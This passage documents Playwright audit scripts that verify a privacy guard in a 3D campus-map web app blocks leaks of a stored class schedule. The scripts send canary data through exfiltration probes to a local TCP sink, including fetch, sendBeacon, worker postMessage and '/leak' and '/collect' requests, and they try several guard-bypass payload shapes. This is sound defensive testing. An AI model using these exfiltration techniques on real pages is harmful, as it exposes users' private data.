  // Answer so the browser does not sit in a retry loop. CORS-open so a fetch
  // resolves rather than rejecting for a reason unrelated to the guard.
  setTimeout(() => {
    try {
      sock.end('HTTP/1.1 204 No Content\r\nAccess-Control-Allow-Origin: *\r\n' +
        'Access-Control-Allow-Methods: POST, OPTIONS\r\n' +
        'Access-Control-Allow-Headers: content-type\r\nContent-Length: 0\r\n\r\n');
    } catch (e) {}
  }, 60);
});
await new Promise((res, rej) => {
  sink.once('error', rej);
  sink.listen(SINK_PORT, '127.0.0.1', res);
});
const SINK = `http://127.0.0.1:${SINK_PORT}`;
console.log(`\n  raw TCP sink listening on ${SINK}`);

/** Everything the socket has received since a mark, as one string. */
const sinkSince = (mark) => sinkBytes.filter(b => b.at >= mark).map(b => b.text).join('\n');
const canariesIn = (text) => CANARIES.filter(c => text.indexOf(c) !== -1);

// ── the browser ──────────────────────────────────────────────────────────────
const browser = await chromium.launch({
  executablePath: CHROME,
  headless: true,
  args: ['--no-sandbox', '--disable-dev-shm-usage', '--ignore-gpu-blocklist',
    '--enable-gpu-rasterization', '--force_high_performance_gpu',
    '--enable-unsafe-swiftshader'],
});
let killed = false;
const reap = (code) => {
  if (killed) return; killed = true;
  try { sink.close(); } catch (e) {}
  try { browser.process()?.kill('SIGKILL'); } catch (e) {}
  try { browser.close(); } catch (e) {}
  if (code != null) process.exit(code);
};
const watchdog = setTimeout(() => { console.error('watchdog'); reap(124); }, 600000);
process.once('SIGINT', () => reap(130));
process.once('uncaughtException', e => { console.error(e); reap(1); });
process.once('unhandledRejection', e => { console.error(e); reap(1); });

// An EXPLICIT context, not `browser.newPage()`. §8 needs a second page that
// shares this one's storage but none of its init scripts, and the default
// context refuses `newPage()`.
const context = await browser.newContext({ viewport: { width: 1180, height: 800 } });
const page = await context.newPage();
const pageErrors = [];
page.on('pageerror', e => pageErrors.push(e.message));

// TWO CAPTURES, ON PURPOSE, so the difference between them is MEASURED rather
// than assumed. Round 4's critic asserted that `postData()` is blind to a Blob
// body and that the audit was therefore only ever proving string-shaped leaks.
// That is checkable, so it gets checked instead of believed — and the raw
// socket above settles the question either way, because it depends on no
// Playwright behaviour at all.
const seenByPostData = [];
const seenByBuffer = [];
page.on('request', (r) => {
  let body = null;
  try { body = r.postData(); } catch (e) { body = null; }
  seenByPostData.push({ url: r.url(), method: r.method(), body });
});
// Registered LATER, after the cold load — intercepting every tile of a city
// would slow the load into the watchdog for no gain, and the cost measurement
// in §1 wants an unmolested load anyway.
let routing = false;
const installBufferCapture = () => page.route('**/*', async (route) => {
  if (routing) {
    const req = route.request();
    let buf = null;
    try { buf = req.postDataBuffer(); } catch (e) { buf = null; }
    seenByBuffer.push({
      url: req.url(), method: req.method(),
      body: buf ? buf.toString('utf8') : null,
      bytes: buf ? buf.length : 0,
    });
  }
  try { await route.continue(); } catch (e) {}
});

// ── SEED THE SCHEDULE BEFORE THE APP BOOTS ──────────────────────────────────
// This is what makes §3's cost measurement real. If the schedule is saved after
// the map has loaded, the guard spent the whole cold load on its fast path with
// an empty watchlist and the "it costs nothing" claim is measured over the
// wrong window. Written straight into localStorage at document-start, so
// `scheduleLoad()` finds it during boot and every worker message of the cold
// load is inspected.
await page.addInitScript(([key, doc]) => {
  try { localStorage.setItem(key, JSON.stringify(doc)); } catch (e) {}
}, ['austin3d.schedule.v1', SCHEDULE]);

const URL_WALK = `${BASE}/index.html?walk=1&drift=0&intro=0`;
await page.goto(URL_WALK, { waitUntil: 'domcontentloaded', timeout: 150000 });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded(), null, { timeout: 150000 });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => {
  const v = document.getElementById('veil');
  return !v || getComputedStyle(v).opacity === '0' || v.classList.contains('lift');
}, null, { timeout: 150000 }).catch(() => console.log('    note: veil never reported lifted'));
await page.waitForTimeout(3000);

console.log('\n════════════════════════════════════════════════════════════════');
console.log('  r5-blob — ' + BASE + '  (sink ' + SINK + ')');
console.log('════════════════════════════════════════════════════════════════');

// ── 0. the premise: is the subject actually there? ──────────────────────────
console.log('\n── 0. the schedule really is loaded and the guard really is armed ──');
const boot = await page.evaluate(() => {
  const s = window.WAYFIND && window.WAYFIND.store;
  return {
    hasStore: !!s,
    has: s ? s.has() : null,
    guard: s ? s.guard.state() : null,
    classes: s && s.load() ? s.load().classes.length : 0,
    mapLayer: !!(window.__map && window.__map.getLayer && window.__map.getLayer('buildings-3d')),
  };
});
ok(boot.hasStore, 'WAYFIND.store exists under ?walk=1');
ok(boot.has === true, 'the seeded schedule survived boot and loaded', boot.classes + ' classes');
ok(boot.guard && boot.guard.installed && boot.guard.armed, 'guard installed and armed');
ok(boot.guard && boot.guard.watched > 0, 'guard is watching the schedule strings', 'watched=' + (boot.guard && boot.guard.watched));
ok(boot.guard && boot.guard.policy && boot.guard.policy.blockUnreadableBodies === true,
  'policy: an unreadable body is refused, not counted and waved through');
ok(boot.mapLayer, 'the city itself loaded (buildings-3d present)');

// ── 1. the cold-load cost of the new rule, MEASURED ────────────────────────
console.log('\n── 1. what the new rule cost on a cold map load with a schedule stored ──');
const g0 = boot.guard;
console.log('    ' + JSON.stringify({
  checked: g0.checked, quietChecked: g0.quietChecked, blocked: g0.blocked,
  unreadableBodies: g0.unreadableBodies, opaqueWorkerLeaves: g0.opaqueWorkerLeaves,
}));
ok(g0.quietChecked > 0, 'the guard really did inspect worker traffic during the cold load',
  g0.quietChecked + ' worker messages');
ok(g0.blocked === 0, 'the new fail-closed rule blocked NOTHING the app itself does');
ok(g0.unreadableBodies === 0, 'no request this app makes has a body the guard cannot read');
ok(g0.opaqueWorkerLeaves === 0, 'no worker payload this app posts contains a Blob or a stream');
ok(g0.inspectFailures === 0, 'the inspector never threw');

// ── 2. the probes ───────────────────────────────────────────────────────────
// Each door twice: disarmed (does the channel carry, does the socket see it?)
// then armed (is it refused, and does the socket stay silent?).
const PROBE = `(async (name, sink, text, shape) => {
  const url = sink + '/__r5_' + shape + '_' + name;
  const mk = () => shape === 'blob'
    ? new Blob([text], { type: 'text/plain' })
    : text;
  switch (name) {
    case 'fetch':
      try { await fetch(url, { method: 'POST', body: mk() }); return 'sent'; }
      catch (e) { return 'threw: ' + String(e.message || e); }
    case 'xhr':
      try { const x = new XMLHttpRequest(); x.open('POST', url, true); x.send(mk()); return 'sent'; }
      catch (e) { return 'threw: ' + String(e.message || e); }
    case 'sendBeacon':
      try { return 'returned ' + navigator.sendBeacon(url, mk()); }
      catch (e) { return 'threw: ' + String(e.message || e); }
    case 'worker-postmessage':
      try {
        if (!self.__r5w) {
          const src = 'self.onmessage=function(){};';
          self.__r5w = new Worker(URL.createObjectURL(new Blob([src], { type: 'text/javascript' })));
        }
        self.__r5w.postMessage({ tile: 'x', payload: mk() });
        return 'posted';
      } catch (e) { return 'threw: ' + String(e.message || e); }
  }
  return 'unknown';
})`;

const isOurBlock = (s) => /\[wayfind\] blocked:/.test(String(s));
const isRefusal = (v) => isOurBlock(v) || v === 'returned false';
const NETWORK_DOORS = ['fetch', 'xhr', 'sendBeacon'];
const ALL_DOORS = [...NETWORK_DOORS, 'worker-postmessage'];

async function fireOnce(name, shape, armed) {
  await page.evaluate((arm) => {
    const g = window.WAYFIND.store.guard;
    if (arm) g.arm(); else g.__disarmForAudit();
  }, armed);
  const mark = Date.now();
  routing = true;
  const bufBefore = seenByBuffer.length;
  const pdBefore = seenByPostData.length;
  let res;
  try {
    res = await page.evaluate(([fn, n, s, t, sh]) =>
      // eslint-disable-next-line no-eval
      eval(fn)(n, s, t, sh), [PROBE, name, SINK, JSON.stringify(SCHEDULE), shape]);
  } catch (e) { res = 'threw: ' + String(e.message || e); }
  await page.waitForTimeout(1100);
  routing = false;
  return {
    res,
    hitSocket: canariesIn(sinkSince(mark)),
    byBuffer: seenByBuffer.slice(bufBefore),
    byPostData: seenByPostData.slice(pdBefore),
  };
}

await installBufferCapture();

console.log('\n── 2. BLOB probe, disarmed: does it carry, and can the instrument see it? ──');
const disarmedBlob = {};
for (const name of ALL_DOORS) {
  const r = await fireOnce(name, 'blob', false);
  disarmedBlob[name] = r;
  console.log('    ' + name.padEnd(20) + ' -> ' + String(r.res).slice(0, 58) +
    '   socket saw: ' + JSON.stringify(r.hitSocket));
}
for (const name of NETWORK_DOORS) {
  const r = disarmedBlob[name];
  ok(r.hitSocket.length > 0,
    name + ': DISARMED — a Blob body really does reach the wire, canary read off the raw socket',
    JSON.stringify(r.hitSocket));
}
ok(String(disarmedBlob['worker-postmessage'].res) === 'posted',
  'worker-postmessage: DISARMED — a Blob payload really is accepted by postMessage');

// THE ROUND-4 BUG IN THE INSTRUMENT: reproduced and REPORTED, not asserted.
// Whether `postData()` is blind is a fact about the Playwright build on this
// machine, and asserting a specific answer would make this script fail for a
// reason that has nothing to do with the app. What must hold either way is
// that the round-5 capture DOES see the bytes.
const pdSawCanary = disarmedBlob['fetch'].byPostData
  .some(r => r.body && canariesIn(r.body).length > 0);
const bufSawCanary = disarmedBlob['fetch'].byBuffer
  .some(r => r.body && canariesIn(r.body).length > 0);
console.log('    postData()       saw the Blob canary: ' + pdSawCanary +
  (pdSawCanary ? '' : "   <- round 4's blind spot, reproduced"));
console.log('    postDataBuffer() saw the Blob canary: ' + bufSawCanary);
ok(bufSawCanary === true,
  'the round-5 capture can read a Blob body — postDataBuffer() carries the canary',
  JSON.stringify(disarmedBlob['fetch'].byBuffer.filter(r => r.bytes).map(r => r.bytes)));
ok(disarmedBlob['fetch'].hitSocket.length > 0 && bufSawCanary,
  'socket and capture AGREE about the disarmed leak — neither instrument is blind');

console.log('\n── 3. BLOB probe, armed: is it refused, and does the socket stay silent? ──');
const armedBlob = {};
for (const name of ALL_DOORS) {
  const r = await fireOnce(name, 'blob', true);
  armedBlob[name] = r;
  console.log('    ' + name.padEnd(20) + ' -> ' + String(r.res).slice(0, 58) +
    '   socket saw: ' + JSON.stringify(r.hitSocket));
}
for (const name of ALL_DOORS) {
  const r = armedBlob[name];
  ok(isRefusal(r.res), name + ': ARMED — the guard refuses the Blob', String(r.res).slice(0, 72));
  ok(String(r.res) !== String(disarmedBlob[name].res),
    name + ': ARMED and DISARMED really behave differently',
    JSON.stringify(disarmedBlob[name].res).slice(0, 26) + ' vs ' + JSON.stringify(r.res).slice(0, 34));
}
for (const name of NETWORK_DOORS) {
  ok(armedBlob[name].hitSocket.length === 0,
    name + ': ARMED — NOTHING reached the socket', JSON.stringify(armedBlob[name].hitSocket));
}

// ── 4. a ReadableStream, the other unreadable shape ─────────────────────────
console.log('\n── 4. the other unreadable shape: a ReadableStream body ──');
const streamProbe = await page.evaluate(async ([sink, text]) => {
  window.WAYFIND.store.guard.arm();
  const body = new ReadableStream({
    start(c) { c.enqueue(new TextEncoder().encode(text)); c.close(); },
  });
  try {
    await fetch(sink + '/__r5_stream_fetch', { method: 'POST', body, duplex: 'half' });
    return 'sent';
  } catch (e) { return 'threw: ' + String(e.message || e); }
}, [SINK, JSON.stringify(SCHEDULE)]).catch(e => 'evaluate threw: ' + e.message);
await page.waitForTimeout(900);
console.log('    stream fetch -> ' + String(streamProbe).slice(0, 90));
ok(isOurBlock(streamProbe), 'a ReadableStream body is refused the same way a Blob is',
  String(streamProbe).slice(0, 72));

// ── 5. and a plain GET still works, because that is the whole app ──────────
console.log('\n── 5. the rule did not break ordinary traffic ──');
const getProbe = await page.evaluate(async (base) => {
  window.WAYFIND.store.guard.arm();
  try {
    const r = await fetch(base + '/js/wayfind.js', { cache: 'reload' });
    return 'ok ' + r.status;
  } catch (e) { return 'threw: ' + String(e.message || e); }
}, BASE);
ok(/^ok 200/.test(String(getProbe)), 'a bodyless GET is untouched with a schedule stored', String(getProbe));
const afterGuard = await page.evaluate(() => window.WAYFIND.store.guard.state());
ok(afterGuard.blockedOpaque > 0, 'the guard counted its opaque refusals',
  'blockedOpaque=' + afterGuard.blockedOpaque);
ok(afterGuard.inspectFailures === 0, 'still no inspector failures', JSON.stringify(afterGuard));

// ── 6. the socket's whole transcript, scanned once at the end ──────────────
console.log('\n── 6. everything the socket ever received, scanned as one blob ──');
const all = sinkBytes.map(b => b.text).join('\n');
console.log('    ' + sinkBytes.length + ' socket reads, ' + all.length + ' bytes total');
// The disarmed probes DELIBERATELY put the canary there, so the end-state
// assertion is about the armed window only — already asserted per-door above.
// This one records the total for the reader.
console.log('    canaries present in the full transcript (disarmed probes included): ' +
  JSON.stringify(canariesIn(all)));

// ── 7. screenshots of the panel, before and after the tap ─────────────────
console.log('\n── 7. the panel, and a real click on Delete ──');
routing = false;
await page.unroute('**/*').catch(() => {});
await page.click('#wf-button');
await page.waitForTimeout(1400);
const VIS = `(id) => { const e = document.getElementById(id); if (!e) return false;
  const r = e.getBoundingClientRect();
  return r.width > 0 && r.height > 0 && r.bottom > 0 && r.top < innerHeight; }`;
const savedPanel = await page.evaluate((vis) => {
  const el = document.getElementById('wf-priv');
  return { text: el ? el.innerText : null, visible: eval(vis)('wf-priv'), del: eval(vis)('wf-priv-del') };
}, VIS);
ok(savedPanel.visible, 'the privacy panel has a real box on screen');
ok(savedPanel.del, 'the Delete button has a real box on screen');
const namesAClass = SCHEDULE.classes.some(c => (savedPanel.text || '').indexOf(c.title) !== -1);
ok(!namesAClass, 'the panel names no class — a count and a source only', JSON.stringify(savedPanel.text));
await page.screenshot({ path: path.join(SHOTS, 'r5-panel-saved.png'), clip: await clipOf(page, 'wf-priv') });
// And the same thing in the city, because a cropped panel is not what a
// student looks at. JPEG on purpose: this is a 1180x800 photograph of a 3D
// scene and a PNG of it is ~1 MB in a repo every lane gets a full copy of.
await page.screenshot({ path: path.join(SHOTS, 'r5-in-the-city.jpg'), type: 'jpeg', quality: 72 });

await page.click('#wf-priv-del');
await page.waitForTimeout(1200);
const afterTap = await page.evaluate(() => ({
  text: (document.getElementById('wf-priv') || {}).innerText,
  has: window.WAYFIND.store.has(),
  inv: window.WAYFIND.store.inventory(),
  guard: window.WAYFIND.store.guard.state(),
}));
ok(afterTap.has === false, 'store.has() false right after the tap');
ok(afterTap.inv.bytes === 0, 'inventory reports zero bytes stored');
ok(afterTap.guard.watched === 0, 'the guard dropped its copy of the schedule too');
await page.screenshot({ path: path.join(SHOTS, 'r5-panel-deleted.png'), clip: await clipOf(page, 'wf-priv') });

// ── 8. reload into a fresh document and look again ────────────────────────
console.log('\n── 8. reload, and look again from a fresh document ──');
// THE TRAP HERE, AND WHY THIS IS A NEW PAGE RATHER THAN A RELOAD. The schedule
// was seeded by a page-scoped `addInitScript`, so reloading THIS page would
// write it straight back and the "delete survived a reload" assertion would be
// testing the seeder instead of the delete — a green result that means nothing.
// A new page in the SAME context shares the origin and the storage but carries
// none of this page's init scripts, so it is a genuinely fresh document looking
// at the same disk.
const page2 = await context.newPage();
await page2.goto(URL_WALK, { waitUntil: 'domcontentloaded', timeout: 150000 });
await page2.waitForFunction(() => window.WAYFIND && window.WAYFIND.store, null, { timeout: 60000 })
  .catch(() => {});
await page2.waitForTimeout(2500);
const reloaded = await page2.evaluate(async () => {
  const keys = [];
  for (let i = 0; i < localStorage.length; i++) keys.push(localStorage.key(i));
  let dbs = [];
  try { dbs = (await indexedDB.databases()).map(d => d.name); } catch (e) {}
  return {
    keys,
    raw: localStorage.getItem('austin3d.schedule.v1'),
    has: window.WAYFIND ? window.WAYFIND.store.has() : null,
    watched: window.WAYFIND ? window.WAYFIND.store.guard.state().watched : null,
    dbs,
    panel: (document.getElementById('wf-priv') || {}).innerText || null,
  };
});
ok(!reloaded.keys.some(k => k && k.indexOf('austin3d.schedule.') === 0),
  'RELOADED: no schedule key in storage', JSON.stringify(reloaded.keys));
ok(reloaded.raw === null, 'RELOADED: the schedule key reads null');
ok(reloaded.has === false, 'RELOADED: store.has() false');
ok(reloaded.watched === 0, 'RELOADED: guard watchlist empty');
ok(!reloaded.dbs.includes('austin3d-schedule'),
  'RELOADED: reserved IndexedDB database is not there', JSON.stringify(reloaded.dbs));
ok(/No schedule saved/i.test(reloaded.panel || ''),
  'RELOADED: the panel is back to its empty state', JSON.stringify(reloaded.panel));

ok(pageErrors.length === 0, 'no page errors', pageErrors.slice(0, 2).join(' | '));

async function clipOf(p, id) {
  const box = await p.evaluate((i) => {
    const e = document.getElementById(i);
    if (!e) return null;
    const r = e.getBoundingClientRect();
    return { x: Math.max(0, r.x - 8), y: Math.max(0, r.y - 8), width: r.width + 16, height: r.height + 16 };
  }, id);
  return box || { x: 0, y: 0, width: 600, height: 300 };
}

console.log('\n════════════════════════════════════════════════════════════════');
console.log(fails.length ? '  ' + fails.length + ' FAIL' : '  ALL PASS');
for (const f of fails) console.log('    - ' + f);
console.log('════════════════════════════════════════════════════════════════\n');
clearTimeout(watchdog);
reap(fails.length ? 1 : 0);
```


---

### 11c. `r6-arraybuffer.mjs` — the round-6 leak proof

The round-5 critic's own break, re-run against round 6's fix, on the same
instrument: a bare TCP listener that has no opinion about its own input, plus
the guard's counters read immediately before and after every probe. `OUT_DIR`
defaults to a scratch directory; per CLAUDE.md rule 12 only the one frame this
document cites is committed.

```js
/**
 * r6-arraybuffer.mjs — the round-5 critic's break, re-run against round 6's fix,
 * on the same instrument: a bare TCP listener that has no opinion about its own
 * input, plus the guard's own counters read before and after every probe.
 *
 * The bar it has to clear, stated before it ran:
 *   A. the ArrayBuffer transfer that leaked in round 5 is now BLOCKED and COUNTED
 *   B. the negative control still leaks with the guard disarmed (the instrument works)
 *   C. real map tile ArrayBuffers still cross, and the map still draws
 *   D. the adjacent shapes that would have been round 7 are closed too
 */
import net from 'node:net';
import fs from 'node:fs';
import { chromium } from 'playwright-core';
import { launch } from './chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const SINK_PORT = Number(process.env.SINK_PORT || 8952);
const OUT = process.env.OUT_DIR || './_r6-out';

// ── the sink. Raw TCP, not the browser automation, so nothing about HTTP
//    framing or what Playwright can see is part of the answer. ───────────────
let sinkBytes = [];
const sink = net.createServer((sock) => {
  sock.on('data', (b) => sinkBytes.push(b));
  sock.on('error', () => {});
  setTimeout(() => {
    try {
      sock.write('HTTP/1.1 204 No Content\r\nAccess-Control-Allow-Origin: *\r\nContent-Length: 0\r\nConnection: close\r\n\r\n');
      sock.end();
    } catch (e) {}
  }, 60);
});
await new Promise((r) => sink.listen(SINK_PORT, '127.0.0.1', r));
const sinkText = () => Buffer.concat(sinkBytes).toString('latin1');
const sinkReset = () => { sinkBytes = []; };

// Canaries this lane chose, not borrowed from any earlier round.
const CANARY = {
  title: 'Zygomorphic Percussion Seminar',
  instructor: 'Prof. Quenneville Ashbourne',
  room: 'RLP 0.108',
  code: 'MUS 371',
};

const results = {};
const say = (k, v) => { results[k] = v; console.log(k + ': ' + JSON.stringify(v)); };

const browser = await launch(chromium, { maxMs: 420000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

await page.goto(BASE + '/index.html?walk=1', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 150000 });
await page.waitForTimeout(9000);

// ── 0. store a real schedule, the way a real importer will ──────────────────
say('save', await page.evaluate((C) => window.WAYFIND.store.save({
  term: 'Fall 2026', tz: 'America/Chicago',
  sources: [{ kind: 'ut-registration' }],
  classes: [{ code: 'MUS', room: '371', title: C.title, instructor: C.instructor,
              days: ['M', 'W'], startMin: 600, endMin: 660 },
            { code: 'RLP', room: '0.108', title: 'Applied Reticulation',
              days: ['T'], startMin: 780, endMin: 840 }],
}), CANARY));
say('armed', await page.evaluate(() => window.WAYFIND.store.guard.arm()));
say('state-after-save', await page.evaluate(() => window.WAYFIND.store.guard.state()));

// ── the worker under test: it decodes whatever binary it is handed and dials
//    out with its OWN fetch — the exact second half of the round-5 break. ────
const WORKER_SRC = `
self.onmessage = (e) => {
  const d = e.data || {};
  let bytes = null;
  const grab = (x) => {
    if (!x || typeof x !== 'object') return;
    if (x instanceof ArrayBuffer) { bytes = new Uint8Array(x); return; }
    if (ArrayBuffer.isView(x)) { bytes = new Uint8Array(x.buffer, x.byteOffset, x.byteLength); return; }
    for (const k in x) grab(x[k]);
  };
  grab(d);
  if (!bytes) { self.postMessage({ got: false }); return; }
  const text = new TextDecoder().decode(bytes);
  fetch('http://127.0.0.1:__SINK__/leak', { method: 'POST', body: text })
    .then(r => self.postMessage({ got: true, len: bytes.length, sent: r.status }))
    .catch(err => self.postMessage({ got: true, len: bytes.length, sent: 'err:' + err.message }));
};`.replace('__SINK__', String(SINK_PORT));

await page.evaluate((src) => {
  window.__mkWorker = () => {
    const url = URL.createObjectURL(new Blob([src], { type: 'text/javascript' }));
    const w = new Worker(url);
    w.__last = new Promise((res) => { w.onmessage = (e) => res(e.data); });
    return w;
  };
}, WORKER_SRC);

/** Fire one probe and report the guard's counters before and after it. */
const probe = (name, fn, arg) => page.evaluate(async ([n, body, a]) => {
  const g = window.WAYFIND.store.guard;
  const b = g.state();
  let threw = null, ret = null;
  try { ret = await (new Function('a', 'return (' + body + ')(a)'))(a); }
  catch (e) { threw = String(e && e.message || e); }
  const after = g.state();
  return {
    name: n, threw, ret,
    blockedDelta: after.blocked - b.blocked,
    opaqueDelta: after.opaqueWorkerLeaves - b.opaqueWorkerLeaves,
    truncDelta: after.truncatedScans - b.truncatedScans,
    binLeafDelta: after.binaryLeaves - b.binaryLeaves,
    binByteDelta: after.binaryBytes - b.binaryBytes,
    throwDelta: after.scanThrows - b.scanThrows,
  };
}, [name, fn.toString(), arg]);

// ══ A. THE ROUND-5 BREAK, ARMED ═══════════════════════════════════════════
sinkReset();
say('A-armed-arraybuffer-transfer', await probe('A', async (C) => {
  const w = window.__mkWorker();
  const buf = new TextEncoder().encode(C.title).buffer;
  w.postMessage({ tile: 'x', payload: buf }, [buf]);
  const r = await Promise.race([w.__last, new Promise(res => setTimeout(() => res('timeout'), 2500))]);
  w.terminate();
  return r;
}, CANARY));
await page.waitForTimeout(1200);
say('A-sink-saw-canary', sinkText().includes(CANARY.title));
say('A-sink-bytes', Buffer.concat(sinkBytes).length);

// ══ B. THE NEGATIVE CONTROL — disarm and watch the same probe land ═════════
sinkReset();
await page.evaluate(() => window.WAYFIND.store.guard.__disarmForAudit());
say('B-disarmed-arraybuffer-transfer', await probe('B', async (C) => {
  const w = window.__mkWorker();
  const buf = new TextEncoder().encode(C.title).buffer;
  w.postMessage({ tile: 'x', payload: buf }, [buf]);
  const r = await Promise.race([w.__last, new Promise(res => setTimeout(() => res('timeout'), 4000))]);
  w.terminate();
  return r;
}, CANARY));
await page.waitForTimeout(1800);
say('B-sink-saw-canary', sinkText().includes(CANARY.title));
await page.evaluate(() => window.WAYFIND.store.guard.arm());

// ══ C. A REAL TILE BUFFER STILL CROSSES ═══════════════════════════════════
// Bytes captured off this app's own worker traffic, replayed through the
// armed guard. If these are refused the map is dead, so this is the one that
// says the fix did not just block everything.
say('C-real-tile-bytes', await page.evaluate(async () => {
  // grab a genuine payload MapLibre is about to send
  const grabbed = await new Promise((res) => {
    const pm = Worker.prototype.postMessage;
    let done = false;
    const find = (x, d) => {
      if (!x || typeof x !== 'object' || d > 10) return null;
      if (ArrayBuffer.isView(x)) return x;
      if (x instanceof ArrayBuffer) return new Uint8Array(x);
      for (const k in x) { const r = find(x[k], d + 1); if (r) return r; }
      return null;
    };
    Worker.prototype.postMessage = function (m) {
      if (!done) { const f = find(m, 0); if (f && f.byteLength > 1000) { done = true; res(new Uint8Array(f)); } }
      return pm.apply(this, arguments);
    };
    window.__map.setZoom(window.__map.getZoom() + 0.7);
    window.__map.panBy([320, 260], { duration: 0 });
    setTimeout(() => { Worker.prototype.postMessage = pm; res(null); }, 12000);
  });
  if (!grabbed) return { grabbed: false };
  const g = window.WAYFIND.store.guard, b = g.state();
  const w = window.__mkWorker();
  let threw = null;
  const copy = grabbed.slice().buffer;
  try { w.postMessage({ type: 'loadTile', data: copy }, [copy]); } catch (e) { threw = String(e.message); }
  w.terminate();
  const a = g.state();
  return { grabbed: true, bytes: grabbed.byteLength, threw,
           blockedDelta: a.blocked - b.blocked, binLeafDelta: a.binaryLeaves - b.binaryLeaves,
           binByteDelta: a.binaryBytes - b.binaryBytes };
}));

// ══ D. THE SHAPES THAT WOULD HAVE BEEN ROUND 7 ════════════════════════════
sinkReset();
const D = {};
D.typedArrayView = await probe('D1', (C) => {
  const w = window.__mkWorker(); const u8 = new TextEncoder().encode('x ' + C.title + ' y');
  try { w.postMessage({ v: u8 }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.utf16Buffer = await probe('D2', (C) => {
  const w = window.__mkWorker(); const s = C.instructor;
  const u16 = new Uint16Array(s.length); for (let i = 0; i < s.length; i++) u16[i] = s.charCodeAt(i);
  try { w.postMessage({ v: u16 }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.mapLeaf = await probe('D3', (C) => {
  const w = window.__mkWorker();
  try { w.postMessage(new Map([['k', C.title]])); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.setLeaf = await probe('D4', (C) => {
  const w = window.__mkWorker();
  try { w.postMessage({ s: new Set([C.title]) }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.regexpLeaf = await probe('D5', (C) => {
  const w = window.__mkWorker();
  try { w.postMessage({ r: new RegExp(C.title) }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.imageDataLeaf = await probe('D6', (C) => {
  const w = window.__mkWorker(); const img = new ImageData(16, 16);
  const b = new TextEncoder().encode(C.title); img.data.set(b);      // the WHOLE canary
  try { w.postMessage({ i: img }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.blobLeaf = await probe('D7', (C) => {
  const w = window.__mkWorker();
  try { w.postMessage({ b: new Blob([C.title]) }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.messagePort = await probe('D8', (C) => {
  const ch = new MessageChannel(); const buf = new TextEncoder().encode(C.title).buffer;
  ch.port1.postMessage({ payload: buf }, [buf]); return 'sent';
}, CANARY);
D.oversizeBuffer = await probe('D9', (C) => {
  const w = window.__mkWorker(); const big = new Uint8Array(5 * 1024 * 1024);
  big.set(new TextEncoder().encode(C.title), 5 * 1024 * 1024 - 64);
  try { w.postMessage({ v: big }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.deepPayload = await probe('D10', (C) => {
  const w = window.__mkWorker();
  const arr = new Array(9000001).fill(0); arr[9000000] = C.title;
  try { w.postMessage({ v: arr }); } finally { w.terminate(); } return 'sent';
}, CANARY);
D.workerCtorUrlPlain = await probe('D11a', (C) => {
  const w = new Worker('/collect.js?t=' + C.title); w.terminate(); return 'made';
}, CANARY);
D.workerCtorUrlEncoded = await probe('D11b', (C) => {
  const w = new Worker('/collect.js?t=' + encodeURIComponent(C.title)); w.terminate(); return 'made';
}, CANARY);
D.fetchUrlEncoded = await probe('D11c', async (C) => {
  await fetch('http://127.0.0.1:8952/collect?t=' + encodeURIComponent(C.title));
  return 'sent';
}, CANARY);
D.formEncodedBody = await probe('D11d', async (C) => {
  const p = new URLSearchParams(); p.set('title', C.title);
  await fetch('http://127.0.0.1:8952/collect', { method: 'POST', body: p });
  return 'sent';
}, CANARY);
D.plainStringStillWorks = await probe('D12', (C) => {
  const w = window.__mkWorker();
  try { w.postMessage({ nothing: 'to see here', n: 42, ok: true }); } finally { w.terminate(); }
  return 'sent';
}, CANARY);
say('D', D);
await page.waitForTimeout(1500);
say('D-sink-saw-canary', sinkText().includes(CANARY.title));
say('D-sink-saw-encoded', sinkText().indexOf('Zygomorphic%20') !== -1 || sinkText().indexOf('Zygomorphic+') !== -1);
say('D-sink-bytes', Buffer.concat(sinkBytes).length);

// ══ the map is still a map ════════════════════════════════════════════════
await page.waitForTimeout(6000);
say('final-state', await page.evaluate(() => window.WAYFIND.store.guard.state()));
say('tiles-loaded', await page.evaluate(() => {
  const m = window.__map;
  return { styleLoaded: m.isStyleLoaded(), sourcesLoaded: m.areTilesLoaded ? m.areTilesLoaded() : null,
           layers: m.getStyle().layers.length, hasBuildings: !!m.getLayer('buildings-3d') };
}));
say('guard-log-tail', await page.evaluate(() => window.WAYFIND.store.guard.log().slice(-14)));

fs.mkdirSync(OUT, { recursive: true });
await page.screenshot({ path: OUT + '/r6-map-after-fix.png' });
await page.waitForTimeout(700);
await page.screenshot({ path: OUT + '/r6-map-after-fix.png' });   // second frame, trust this one

fs.writeFileSync(OUT + '/r6-results.json', JSON.stringify(results, null, 2));
await browser.close();
sink.close();
console.log('\nDONE');
```

### 11d. `r7-holes.mjs` — the round-7 leak proof

Two independent measurements per shape, and both are needed: `clone` asks
whether `structuredClone` actually carries the canary (if it does not, a miss in
the walk is harmless), `guard` asks whether an armed guard refuses it. A shape
that is `clone:true, guard:pass` is a real, silent bypass. Run it with
`--disarm` for the negative control that makes the armed column mean anything.

```js
/**
 * r7-holes.mjs — round 7's own adversarial pass over round 6's rewrite.
 *
 * Round 6 inverted the default in `scanStructured()`: a closed list of node
 * kinds it can read, everything else flagged opaque. This probe asks the only
 * question that matters about that claim — is the closed list itself right?
 * A node kind the walk THINKS it reads fully, but does not, is worse than an
 * unknown one, because it never reaches the default branch at all.
 *
 * TWO INDEPENDENT MEASUREMENTS PER SHAPE, and both are needed:
 *   clone : does `structuredClone()` actually carry the canary? (if not, a miss
 *           in the walk is harmless — the receiver never sees it)
 *   guard : does an armed guard refuse it?
 * A shape that is `clone:true, guard:pass` is a real, silent bypass.
 */
import net from 'node:net';
